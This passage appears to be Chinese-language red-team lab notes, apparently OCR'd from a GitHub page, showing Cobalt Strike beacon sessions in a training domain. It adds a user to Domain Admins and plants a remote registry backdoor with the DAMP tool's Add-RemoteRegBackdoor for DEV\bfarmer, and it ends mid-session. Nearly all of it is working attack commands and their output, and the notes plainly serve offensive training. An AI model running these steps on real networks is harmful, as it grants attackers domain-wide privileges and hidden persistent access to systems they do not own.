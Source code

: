 beacon> run net group "Domain Admins" /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            nlamb                    
The command completed successfully.

beacon> run net group "Domain Admins" bfarmer /domain /add
The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.

beacon> run net group "Domain Admins" /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            bfarmer                  nlamb                    
The command completed successfully.
```


# Remote Registry Backdoor

远程主机注册表后门

使用工具[DAMP](https://github.com/HarmJ0y/DAMP)

取得了本机(srv-2)的本地管理员权限，为用户DEV\bfarmer添加注册表后门
```
beacon> run hostname
srv-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Add-RemoteRegBackdoor -Trustee DEV\bfarmer

ComputerName BackdoorTrustee
------------ ---------------
SRV-2        DEV\bfarmer
```

DEV\bfarmer访问srv-2
```
beacon> getuid
[*] You are DEV\bfarmer
